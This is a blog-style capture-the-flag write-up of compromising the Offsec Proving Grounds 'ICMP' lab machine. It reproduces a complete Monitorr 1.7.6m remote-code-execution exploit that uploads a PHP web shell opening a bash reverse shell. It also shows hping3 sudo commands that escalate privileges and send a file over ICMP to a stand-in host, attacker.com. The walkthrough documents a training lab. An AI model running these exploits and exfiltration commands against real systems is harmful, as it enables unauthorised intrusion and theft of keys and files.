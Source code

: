 ```yaml
---
title: "Proving grounds Play: ICMP"
layout: post
date: 2023-07-15 12:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- Pg-Play
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds play linux machine writeup"
---
```

## Walkthrough on Youtube

[![youtube](/assets/images/CTF/Proving_Grounds/ICMP/youtube.png)](https://youtu.be/6fyL_fFyV4c)

## NMAP

![img](/assets/images/CTF/Proving_Grounds/ICMP/nmap.png)

## PORT 80 Tech Stack

- Operating System: Debian
- Web Technology: Apache, PHP (view-page-source)

## Monitorr

![img](/assets/images/CTF/Proving_Grounds/ICMP/monitorr%20version.png)

![img](/assets/images/CTF/Proving_Grounds/ICMP/searchsploit_search.png)

### Exploit Code

```python
#!/usr/bin/python
# -*- coding: UTF-8 -*-

# Exploit Title: Monitorr 1.7.6m - Remote Code Execution (Unauthenticated)
# Date: September 12, 2020
# Exploit Author: Lyhin's Lab
# Detailed Bug Description: https://lyhinslab.org/index.php/2020/09/12/how-the-white-box-hacking-works-authorization-bypass-and-remote-code-execution-in-monitorr-1-7-6/
# Software Link: https://github.com/Monitorr/Monitorr
# Version: 1.7.6m
# Tested on: Ubuntu 19

import requests
import os
import sys

if len (sys.argv) != 4:
	print ("specify params in format: python " + sys.argv[0] + " target_url lhost lport")
else:
    url = sys.argv[1] + "/assets/php/upload.php"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/plain, */*; q=0.01", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "X-Requested-With": "XMLHttpRequest", "Content-Type": "multipart/form-data; boundary=---------------------------31046105003900160576454225745", "Origin": sys.argv[1], "Connection": "close", "Referer": sys.argv[1]}

    data = "-----------------------------31046105003900160576454225745\r\nContent-Disposition: form-data; name=\"fileToUpload\"; filename=\"she_ll.php\"\r\nContent-Type: image/gif\r\n\r\nGIF89a213213123<?php shell_exec(\"/bin/bash -c 'bash -i >& /dev/tcp/"+sys.argv[2] +"/" + sys.argv[3] + " 0>&1'\");\r\n\r\n-----------------------------31046105003900160576454225745--\r\n"

    requests.post(url, headers=headers, data=data)

    print ("A shell script should be uploaded. Now we try to execute it")
    url = sys.argv[1] + "/assets/data/usrimg/she_ll.php"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
    requests.get(url, headers=headers)
```
### Obtaining Reverse Shell

![img](/assets/images/CTF/Proving_Grounds/ICMP/rce1.png)

**Obtained local flag**

![img](/assets/images/CTF/Proving_Grounds/ICMP/local_flag.png)

# Privilege Escalation
### Obtain user

The permission is denied to access the `devel` folder as current user is not a system user. But as the tip found in the reminder file below.

![img](/assets/images/CTF/Proving_Grounds/ICMP/reminder.png)

The php file `crypt.php` inside the `devel` folder disclosed the SSH password for the user `fox`.

```php
<?php
echo crypt('BUHNIJMONIBUVCYTTYVGBUHJNI','da');
?>
```
**User access obtained.**

![img](/assets/images/CTF/Proving_Grounds/ICMP/user.png)

## Root Privilege Escalation

Check the current user sudo permissions.

![img](/assets/images/CTF/Proving_Grounds/ICMP/sudo-l.png)

Search for exploit in GTFO bins for `hping3`

### Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
```sh
sudo hping3
/bin/sh
```

The file is continuously sent, adjust the `--count` parameter or kill the sender when done. Receive on the attacker box with:
```sh
sudo hping3 --icmp --listen xxx --dump
```

RHOST=attacker.com
LFILE=file_to_read
```sh
sudo hping3 "$RHOST" --icmp --data 500 --sign xxx --file "$LFILE"
```

## Transfering SSH key locally to obtain root access through hping3

### ICMP Listener

![img](/assets/images/CTF/Proving_Grounds/ICMP/icmp-listener.png)

### ICMP: Data send

![img](/assets/images/CTF/Proving_Grounds/ICMP/icmp_key_send.png)

### ICMP: Data Receive

![img](/assets/images/CTF/Proving_Grounds/ICMP/icmp_root_ssh_key.png)

## SSH Root User

SSH to the root user using the obtained root SSH key.

![img](/assets/images/CTF/Proving_Grounds/ICMP/root.png)

**Root user access and proof.txt obtained**

![img](/assets/images/CTF/Proving_Grounds/ICMP/proof.png)

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).

